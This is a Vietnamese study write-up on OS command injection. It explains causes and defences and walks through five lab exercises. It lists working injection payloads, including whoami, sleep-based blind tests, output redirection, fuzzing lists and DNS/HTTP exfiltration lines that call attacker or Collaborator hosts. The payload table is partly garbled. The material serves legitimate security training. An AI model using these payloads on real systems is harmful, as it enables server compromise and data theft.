

# OS Command Injection (5/5 labs)

**Định nghĩa:**

OS Command Injection (chèn lệnh hệ điều hành) là một loại lỗ hổng bảo mật xảy ra khi một ứng dụng chèn dữ liệu đầu vào của người dùng vào lệnh hệ thống mà không kiểm tra hoặc xử lý đúng cách. Kẻ tấn công có thể thực thi lệnh hệ điều hành tùy ý trên server.

**Nguyên nhân:**

Ứng dụng sử dụng các hàm hệ thống (như `system()`, `exec()`, `popen()` trong PHP/Python/C) để gọi lệnh shell và **kết hợp trực tiếp đầu vào người dùng vào chuỗi lệnh**.

Không có hoặc có **xử lý không đầy đủ** việc lọc ký tự đặc biệt (`;`, `|`, `&&`, `||`, ...).

Thiếu sử dụng các **API an toàn** thay thế hoặc cơ chế đóng gói lệnh.

Ví dụ code PHP dễ bị lỗi:

```php
phpCopy code$ip = $_GET['ip'];
system("ping -c 1 " . $ip);
```

**Tác động:**

- Thực thi lệnh tùy ý trên server.
- Lấy quyền truy cập shell, hoặc leo thang đặc quyền.
- Đọc/ghi/xóa file hệ thống.
- Đánh cắp dữ liệu nhạy cảm.
- Cài đặt backdoor, malware, pivot nội bộ.

**Các kỹ thuật tấn công:**

1. **Classic (lệnh trả về kết quả):**

```http
ip=127.0.0.1; whoami
```

2. **Blind Command Injection:**

Ứng dụng không trả về kết quả lệnh → dùng các kỹ thuật đo thời gian hoặc tương tác mạng.

- **Time-based:**

```http
ip=127.0.0.1; sleep 10
```

- **Out-of-band (DNS/HTTP):**

```http
email=x||nslookup whoami.attacker.com||
```

3. **Output Redirection (ghi kết quả vào file):**

```http
email=||whoami>/var/www/images/out.txt||
```

4. **Exfiltration qua DNS:**

```http
email=||nslookup `whoami`.abc.oastify.com||
```

**Cách phòng tránh:**

- Không bao giờ kết hợp trực tiếp đầu vào người dùng vào chuỗi lệnh shell.
- Dùng **API an toàn**, như:

​		`subprocess.run(..., shell=False)` trong Python.

​		`escapeshellarg()` trong PHP.

- Hạn chế quyền của user trên hệ điều hành (không dùng root) - least privilege.

- Kiểm tra whitelist đầu vào (vd: chỉ IP hợp lệ, chỉ chuỗi chữ-số).

- Sử dụng cơ chế sandbox:

  Nếu một ứng dụng web có lỗ hổng OS Command Injection, nhưng đang chạy trong sandbox thì:

  - Dù attacker thực thi được lệnh hệ điều hành, họ **không thể truy cập file nhạy cảm**, như `/etc/passwd` hoặc `/var/www/html/index.php`.
  - Attacker **không thể mở kết nối mạng ra ngoài**, hoặc chỉ được kết nối đến một IP cụ thể.
  - Không thể sử dụng quyền root để leo thang đặc quyền.

  Một số công nghệ sandbox phổ biến:

  | Công nghệ              | Mô tả ngắn                                                   |
  | ---------------------- | ------------------------------------------------------------ |
  | **Docker**             | Cô lập ứng dụng trong container, chỉ cho phép những tài nguyên đã cấp |
  | **chroot**             | Tạo môi trường thư mục giả, ứng dụng bị giới hạn trong đó    |
  | **seccomp**            | Giới hạn các syscall (lệnh hệ thống) mà ứng dụng có thể gọi  |
  | **AppArmor / SELinux** | Gán chính sách bảo mật cụ thể cho từng ứng dụng              |
  | **Firejail**           | Sandbox dành cho Linux, đơn giản hóa việc cô lập ứng dụng    |

Ví dụ: Một ứng dụng PHP gọi `system("ping -c 1 $ip");`

- Nếu app chạy bình thường: Attacker có thể dùng `ip=8.8.8.8; cat /etc/passwd`
- Nếu app chạy trong sandbox:
  - `cat /etc/passwd` sẽ **fail** vì file đó không tồn tại trong môi trường sandbox.
  - Hoặc app **không có quyền gọi lệnh `cat`** do bị giới hạn syscall.

**Common payload:** 

| Payload                      | Mục đích                                |
| ---------------------------- | --------------------------------------- |
| `test; whoami`               | Thực thi lệnh thêm sau dấu `;`          |
| `test && whoami`             | Chạy `whoami` nếu lệnh trước thành công |
| `test                        |                                         |
| `test                        | whoami`                                 |
| `test $(whoami)` or `whoami` | Thực thi lệnh trong subshell            |
| `test; ping -c 10 127.0.0.1` | Gây delay (blind test)                  |
| `test; sleep 10`             | Delay 10s (blind)                       |
| `test; curl http://attacker` | Exfil qua HTTP                          |
| `test; nslookup whoami.xyz`  | Exfil qua DNS                           |

## Apprentice: 

### Lab 1: OS command injection, simple case

**Lab des**: Bài lab này mô phỏng lỗ hổng **OS Command Injection** xuất hiện trong chức năng kiểm tra tồn kho sản phẩm của ứng dụng web.

Cụ thể, ứng dụng thực hiện một lệnh shell có chứa dữ liệu đầu vào do người dùng cung cấp — bao gồm `product ID` và `store ID`. Kết quả thực thi lệnh sẽ được hiển thị nguyên văn trong phản hồi HTTP trả về cho người dùng.

Để hoàn thành bài lab, cần khai thác lỗ hổng chèn lệnh nhằm thực thi lệnh `whoami` trên hệ thống máy chủ, từ đó xác định tên của người dùng hiện tại đang thực thi tiến trình web.

**Steps:** 

- Kiểm tra chức nawg check hàng tồn kho, sử dụng intruder của Burp hoặc tool fuzzing

  ```cmd
  ffuf -u "https://yourlab.com/product/stock?productID=2&storeID=FUZZ" -w payloads.txt
  
  ```

  ```bash
  1|whoami
  1;whoami
  1&&whoami
  1||whoami
  1$(whoami)
  1`whoami`
  ```

  

  => Kết quả tấn công của intruder: 

  

  => `peter-THnUA9`

  

  

## Practitioner:

### Lab 1: Blind OS command injection with time delays

Lab des: Lab này chứa lỗ hổng **Blind OS Command Injection** nằm trong chức năng gửi phản hồi (**feedback**) của ứng dụng.

Cụ thể, ứng dụng thực thi một lệnh shell có chứa dữ liệu do người dùng nhập vào. Tuy nhiên, kết quả thực thi của lệnh **không được hiển thị trong phản hồi** (khác với OS Command Injection thông thường).

==> Khai thác lỗ hổng command injection dạng mù bằng cách **chèn một lệnh hệ điều hành gây ra độ trễ 10 giây**, ví dụ như `sleep 10` (trên Linux) hoặc `ping -n 10 127.0.0.1` (trên Windows), nhằm xác nhận rằng mã độc được thực thi thành công.

Steps: 

- Chặn request feedback (gửi email lên server), gửi sang tab intruder, tạo list payload để test độ delay của các response: 


```bash
test@example.com; sleep 10
test@example.com && sleep 10
test@example.com || sleep 10
test@example.com | sleep 10
test@example.com$(sleep 10)
test@example.com`sleep 10`
test@example.com%0a sleep 10
test@example.com; ping -c 10 127.0.0.1
test@example.com && ping -c 10 127.0.0.1
test@example.com || ping -c 10 127.0.0.1
test@example.com | ping -c 10 127.0.0.1
test@example.com; ping -n 10 127.0.0.1
test@example.com && ping -n 10 127.0.0.1
test@example.com || ping -n 10 127.0.0.1
test@example.com | ping -n 10 127.0.0.1
test@example.com;+sleep+10
test@example.com;$(sleep+10)
test@example.com;`sleep+10`
test@example.com&&sleep+10
test@example.com||sleep+10||
test@example.com|sleep+10|
test@example.com%0asleep+10
test@example.com;ping+-c+10+127.0.0.1
test@example.com||ping+-c+10+127.0.0.1||
test@example.com|ping+-c+10+127.0.0.1|
test@example.com&&ping+-c+10+127.0.0.1
test@example.com;ping+-n+10+127.0.0.1
test@example.com||ping+-n+10+127.0.0.1||
test@example.com|ping+-n+10+127.0.0.1|
test@example.com&&ping+-n+10+127.0.0.1

```

Kết quả độ trễ của các test payload:

 


### Lab 2: Blind OS command injection with output redirection

Lab des: 

Ứng dụng web chứa một lỗ hổng **blind OS command injection** trong chức năng **feedback**.

- Ứng dụng cho phép thực thi một lệnh shell có chứa dữ liệu do người dùng nhập vào.
- Kết quả của lệnh không được trả về trong phản hồi.
- Có thể sử dụng kỹ thuật **output redirection (`>`)** để lưu kết quả của lệnh vào một file trong server.
- Thư mục ghi được trên server:

```bash
/var/www/images/
```

- Đây là thư mục chứa hình ảnh sản phẩm và có thể truy cập file trong đó qua HTTP.

Steps: 

- Sửa request submit feedback - param email: 

  ```
  email=||whoami>/var/www/images/output.txt||
  ```

  * có thể sử dụng toán tử || hoặc `&`, `;`,`|`, ` (backtick) để tách lệnh trong shell linux

- Chặn và sửa request load ảnh của sản phẩm, param filename=output.txt 


### Lab 3: Blind OS command injection with out-of-band interaction

Lab des: 

- Bài lab chứa một lỗ hổng Blind OS Command Injection trong chức năng gửi feedback.

- Ứng dụng thực thi một lệnh shell trong dữ liệu nhập từ người dùng (user-supplied).
- Lệnh được thực thi bất đồng bộ (asynchronously), tức là:
  - Kết quả không xuất hiện trong phản hồi HTTP.
  - Không thể dùng output redirection (`>`) để ghi kết quả vào file như ở các lab trước.
- Tuy nhiên, có thể khai thác bằng cách tạo tương tác Out-of-band (*OAST - Out-of-band Application Security Testing*), ví dụ qua DNS request đến một máy chủ bên ngoài được kiểm soát (ở đây là Burp Collaborator).

Steps: 

- Gửi feedback request, và sửa tham số email: 

  ```
  email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
  ```

  - x.domain ==> tạo truy vấn đến subdomain tương ứng với payload, phân biệt truy vấn là do payload nào gọi; tránh bị cache DNS trên server khi truy vấn nhiều lần đến cùng 1 domain, khi thêm subdomain random ==> buộc server phải gửi truy vấn thật ra Internet mà không phải là truy vấn từ cache DNS.


=> Kết quả truy vấn đến domain:


### Lab 4: Blind OS command injection with out-of-band data exfiltration

**Lab des:** 

Bài lab chứa lỗ hổng blind OS command injection trong chức năng gửi feedback.

Ứng dụng thực thi một lệnh shell chứa trong dữ liệu do người dùng cung cấp.
Tuy nhiên:

- Lệnh được thực thi bất đồng bộ (asynchronously).
- Không có phản hồi nào từ kết quả của lệnh trong giao diện người dùng.
- Do đó cũng không thể sử dụng redirect output (>) để ghi kết quả vào nơi có thể truy cập như trong các lab trước.

Tuy nhiên, ta vẫn có thể khai thác lỗ hổng này bằng cách gửi dữ liệu ra ngoài (exfiltrate) thông qua truy vấn DNS đến một tên miền do ta kiểm soát, trong bài lab là Burp Collaborator.

**Steps:** 

- Chặn request submit feedback và sửa param email:

  ```
  email=||nslookup+`whoami`.<burp_collaborator_domain>||
  ```

  (chuột phải chọn insert burp collab payload)

  


Theo dõi tương tác với collaborator: 



Submit tên user: 


